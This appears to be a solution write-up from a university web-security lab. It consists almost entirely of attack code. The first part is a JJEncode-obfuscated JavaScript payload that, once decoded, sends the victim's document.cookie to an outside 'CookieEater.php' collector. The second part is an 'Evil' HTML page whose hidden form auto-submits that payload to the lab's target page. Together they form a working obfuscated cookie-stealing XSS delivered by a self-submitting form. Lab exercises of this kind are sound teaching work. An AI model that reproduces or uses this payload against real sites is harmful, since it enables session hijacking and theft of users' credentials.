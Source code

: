 ```
";$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"\\"+$.__$+$.$$_+$._$_+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+"=\\"+$.__$+$.$_$+$.$$_+$.$$$_+"\\"+$.__$+$.$$_+$.$$$+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$_$+$.$_$_+"\\"+$.__$+$.$__+$.$$$+$.$$$_+"();\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+".\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$_+$.$$__+"=\\\"\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$$_+$._$$+"://\\"+$.__$+$.$_$+$.___+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\"+$.__$+$.$$_+$._$$+".\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\"+$.__$+$.$$$+$._$_+$.$$$_+$.__+"\\"+$.__$+$.$_$+$.__$+$.$_$_+$.$$__+"/\\"+$.__$+$.___+$._$$+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+".\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"=\\\"+"+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+";"+"\"")())();"
```

Let's go back to our server can create the following page:

```html
<!DOCTYPE html>
<html>
<head>
  <title>Evil</title>
</head>
<body>
  <form method="POST" action="https://codered.cs.washington.edu/lab2/pmc/wobbuffet.php?">
    <input name="url" type="hidden" value='";$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"\\"+$.__$+$.$$_+$._$_+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+"=\\"+$.__$+$.$_$+$.$$_+$.$$$_+"\\"+$.__$+$.$$_+$.$$$+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$_$+$.$_$_+"\\"+$.__$+$.$__+$.$$$+$.$$$_+"();\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+".\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$_+$.$$__+"=\\\"\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$$_+$._$$+"://\\"+$.__$+$.$_$+$.___+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\"+$.__$+$.$$_+$._$$+".\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\"+$.__$+$.$$$+$._$_+$.$$$_+$.__+"\\"+$.__$+$.$_$+$.__$+$.$_$_+$.$$__+"/\\"+$.__$+$.___+$._$$+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+".\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"=\\\"+"+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+";"+"\"")())();"'/>
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
